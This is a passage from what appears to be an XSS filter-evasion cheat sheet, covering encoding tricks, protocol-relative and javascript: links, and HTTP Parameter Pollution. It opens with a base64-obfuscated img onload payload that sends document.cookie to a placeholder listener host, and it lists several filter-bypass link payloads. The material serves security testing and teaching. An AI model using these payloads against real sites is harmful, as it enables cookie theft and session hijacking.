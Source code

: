 ```
    <img onload="eval(atob('ZG9jdW1lbnQubG9jYXRpb249Imh0dHA6Ly9saXN0ZXJuSVAvIitkb2N1bWVudC5jb29raWU='))"> 
```
 #### Mixed Encoding
 Let\'s mix and match base encoding and throw in some tabs and newlines
(why browsers allow this, I\'ll never know). The tabs and newlines only work if this is encapsulated with quotes:
 
```
    <A HREF="h     tt  p://6   6.000146.0x7.147/">XSS</A>
```
 
#### Protocol Resolution Bypass 
`//` translates to `http://`, which saves a few more bytes. This is really handy when space is an issue too (two less characters can go a
long way) and can easily bypass regex like `(ht|f)tp(s)?://` (thanks to Ozh for part of this one). You can also change the `//` to `\\\\`. You
do need to keep the slashes in place, however, otherwise this will be interpreted as a relative path URL:
 
```
    <A HREF="//www.google.com/">XSS</A> 
```
 #### Removing CNAMEs
 When combined with the above URL, removing `www.` will save an
additional 4 bytes for a total byte savings of 9 for servers that have set this up properly:
 
```
    <A HREF="http://google.com/">XSS</A> 
```
 Extra dot for absolute DNS:
 
```
    <A HREF="http://www.google.com./">XSS</A> 
```
 #### JavaScript Link Location
 
```
    <A HREF="javascript:document.location='http://www.google.com/'">XSS</A> 
```
 #### Content Replace as Attack Vector
 Assuming `http://www.google.com/` is programmatically replaced with
nothing. A similar attack vector has been used against several separate real world XSS filters by using the conversion filter itself (here is an
example) to help create the attack vector `java&\#x09;script:` was converted into `java script:`, which renders in IE:
 
```
    <A HREF="http://www.google.com/ogle.com/">XSS</A> 
```
 ### Assisting XSS with HTTP Parameter Pollution
 If a content sharing flow on a web site is implemented as shown below,
this attack will work. There is a `Content` page which includes some content provided by users and this page also includes a link to `Share`
page which enables a user choose their favorite social sharing platform to share it on. Developers HTML encoded the `title` parameter in the
`Content` page to prevent against XSS but for some reasons they didn\'t URL encoded this parameter to prevent from HTTP Parameter Pollution.
Finally they decide that since `content_type`\'s value is a constant and will always be integer, they didn\'t encode or validate the
`content_type` in the `Share` page. 
#### Content Page Source Code 
```
     a href="/Share?content_type=1&title=<%=Encode.forHtmlAttribute(untrusted content title)%>">Share</a>
```